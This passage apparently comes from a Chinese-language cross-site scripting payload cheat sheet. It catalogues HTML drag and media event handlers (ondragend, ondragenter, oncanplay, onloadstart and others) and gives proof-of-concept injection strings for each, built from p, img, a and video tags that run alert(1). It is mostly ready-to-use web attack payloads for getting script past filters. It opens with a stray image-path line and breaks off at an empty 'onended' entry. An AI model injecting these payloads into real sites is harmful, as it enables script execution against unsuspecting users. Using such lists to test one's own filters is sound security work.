 **ondragend,ondragenter,ondragleave ,ondragover ,ondragstart **
```
完成拖动后触发，鉴于下面所有事件都差不多，所以直接一次列举出来
```
poc
```
<p draggable="true"  ondragend="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondragend="alert(1)">
<a href='a' ondragend=alert(1)>aaa</a>

<p draggable="true"  ondragenter="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondragenter="alert(1)">
<a href='a' ondragenter=alert(1)>aaa</a>


<p draggable="true"  ondragleave ="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondragleave ="alert(1)">
<a href='a' ondragleave =alert(1)>aaa</a>

<p draggable="true"  ondragover ="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondragover ="alert(1)">
<a href='a' ondragover =alert(1)>aaa</a>

<p draggable="true"  ondragstart ="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondragstart ="alert(1)">
<a href='a' ondragstart =alert(1)>aaa</a>

```

### 多媒体（Media）事件

**oncanplay,oncanplaythrough,ondurationchange,onloadeddata,onloadstart,onprogress**
```
访问就直接触发
```
poc
```
<video controls oncanplay="alert(1)">
<source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>


<video controls oncanplaythrough="alert()">
<source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>

<video controls ondurationchange="alert(1)">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>

<video controls onloadeddata="alert(1)">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>

<video controls onloadstart="alert(1)">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>


<video controls onprogress="alert(1)">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>

```
**onended**
```
```